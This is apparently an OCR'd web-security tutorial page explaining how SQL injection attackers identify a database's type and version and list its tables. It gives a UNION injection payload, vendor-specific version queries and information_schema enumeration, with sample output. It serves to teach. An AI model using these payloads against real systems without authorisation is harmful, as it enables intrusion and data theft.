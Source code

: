 To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

## Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

| Database type    | Query                     |
| ---------------- | ------------------------- |
|                  |                           |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input:

`' UNION SELECT @@version--`

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

`SELECT * FROM information_schema.tables`

This returns output like the following:

| TABLE_CATALOG | TABLE_SCHEMA | TABLE_NAME | TABLE_TYPE |
| ------------- | ------------ | ---------- | ---------- |
|               |              |            |            |
| MyDatabase    | dbo          | Product    | Base Table |
| MyDatabase    | dbo          | Users      | Base Table |
| MyDatabase    | dbo          | Feedback   | Base Table |

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

